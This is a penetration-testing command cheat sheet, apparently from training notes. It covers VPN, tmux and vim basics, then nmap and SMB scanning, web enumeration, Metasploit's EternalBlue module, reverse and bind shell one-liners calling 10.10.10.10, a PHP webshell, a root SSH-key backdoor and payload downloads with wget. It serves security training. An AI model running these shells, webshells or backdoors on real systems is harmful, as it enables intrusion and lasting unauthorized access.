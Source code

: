   
## Basic Tools
**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` |Run a directory scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website
`curl -IL https://www.inlanefreight.com` | Grab website banner
`whatweb 10.10.10.121` | List details about the webserver/certificates
`curl 10.10.10.121/robots.txt` | List potential directories in  `robots.txt`
`ctrl+U` | View page source (in Firefox)
**Public Exploits** |
`searchsploit openssh 7.2` | Search for public exploits for a web application
`msfconsole` | MSF: Start the Metasploit Framework
`search exploit eternalblue` | MSF: Search for public exploits in MSF
`use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module
`show options` | MSF: Show required options for an MSF module
`set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option
`check` | MSF: Test if the target server is vulnerable
`exploit` | MSF: Run the exploit on the target server is vulnerable
**Using Shells** | 
`nc -lvnp 1234` | Start a  `nc`  listener on a local port
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`| Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server
`nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server
`python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1)
`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice| Upgrade shell TTY (2)
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` |Create a webshell php file
`curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell
**Privilege Escalation** | 
`./linpeas.sh` | Run  `linpeas`  script to enumerate remote server
`sudo -l` | List available  `sudo`  privileges
`sudo -u user /bin/echo Hello World!` | Run a command with  `sudo`
`sudo su -` | Switch to root user (if we have access to  `sudo su`)
`sudo su user -` | Switch to a user (if we have access to  `sudo su`)
`ssh-keygen -f key` | Create a new SSH key
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user
`ssh  root@10.10.10.10  -i key` | SSH to the server with the generated private key
**Transferring Files** |
`python3 -m http.server 8000` | Start a local webserver
`wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine
`scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with  `scp`  (requires SSH access)
`base64 shell -w 0` | Convert a file to  `base64`
`echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from  `base64`  back to its orig
`md5sum shell` | Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMzMjk0MDg4OCwtMTY0NjEzMTExMiwtMT
Y0NjEzMTExMl19
-->